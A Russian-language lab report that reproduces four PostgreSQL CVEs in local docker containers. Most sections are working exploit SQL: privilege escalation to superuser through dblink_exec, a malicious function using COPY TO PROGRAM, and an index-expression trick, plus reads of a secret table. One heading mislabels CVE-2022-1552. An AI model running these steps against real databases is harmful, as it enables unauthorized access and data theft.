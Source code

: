# Лабораторная работа №1
Лабораторная работа лежит в [репозитории](https://github.com/x4m/pg_cve_demo)
```shell
git clone https://github.com/x4m/pg_cve_demo.git
```
## CVE-2007-6601
Уязвимая версия Postgres поднимается в docker контейнере
```shell
cd CVE-2007-6601
docker compose up --build
```
![](img/image.png)

Подключение к БД
```shell
psql postgresql://user1:password@127.0.0.1:5432/db1
```

dblink к secret_db
```psql
SELECT dblink_exec('host=localhost dbname=secret_db', 'ALTER USER user1 WITH SUPERUSER;');
```
Переключает текущее подключение на базу secret_db
```psql
\c secret_db;
```
Выводит все данные из таблицы secret_table
```psql
select * from secret_table;
```
![](img/image2.png)

## CVE-2018-10915
```shell
cd CVE-2018-10915
docker compose up --build
```

Подключаемся к серверу на котором есть полный доступ
```shell
psql postgresql://postgres:password@127.0.0.1:5433
```
Чуток магии
```psql
CREATE DATABASE secret_db;
ALTER SYSTEM SET default_transaction_read_only TO on;
SELECT pg_reload_conf();
```
![](img/image3.png)

Цепляемся к серверу с флагом
```shell
psql postgresql://user1:password@127.0.0.1:5432/db1
```
ещё магии
```psql
SELECT * FROM dblink('host=192.168.233.3,localhost port=5433,5432 user=postgres password=password target_session_attrs=read-write dbname=secret_db', 'SELECT * FROM secret_table') AS secret_table(c text);
```
![](img/image4.png)

## CVE-2020-14349
```shell
cd CVE-2020-14349
docker compose up --build
```

цепляемся к БД
```psql
psql postgresql://user1:password@127.0.0.1:5432/db1
```

хитрая функция
```psql
CREATE OR REPLACE FUNCTION public.pg_get_replica_identity_index(int)
RETURNS regclass
LANGUAGE plpgsql
AS $$
BEGIN
    COPY (SELECT 1) TO PROGRAM '/pg12/postgres/bin/psql -c "ALTER USER user1 WITH SUPERUSER;" postgres';
    RETURN pg_catalog.pg_get_replica_identity_index($1);
END;
$$;
```

эксплойт
```psql
\c secret_db
select * from secret_table;
```
![alt text](img/image5.png)


## CVE-2020-14349
```shell
cd CVE-2022-1552
docker compose up --build
```

цепляемся к БД
```shell
psql postgresql://user1:password@127.0.0.1:5432/db1
```


хитрая функция
```psql
CREATE TABLE bttest_a AS SELECT i as id FROM generate_series(1, 1000) i;
ALTER TABLE bttest_a OWNER TO regress_bttest_role;
```
```psql
CREATE OR REPLACE FUNCTION ifun(int8) RETURNS int8 AS $$
BEGIN
 if current_user = 'postgres' then
 ALTER USER user1 WITH superuser;
 end if;
 RETURN $1;
END;
$$ LANGUAGE plpgsql IMMUTABLE;
CREATE INDEX bttest_a_expr_idx ON bttest_a ((ifun(id) + ifun(0)))
 WHERE ifun(id + 10) > ifun(10);
alter function ifun volatile;
select pg_sleep(2);
```

эксплойт
```psql
\c secret_db
SELECT * FROM secret_table;
```
![alt text](img/image6.png)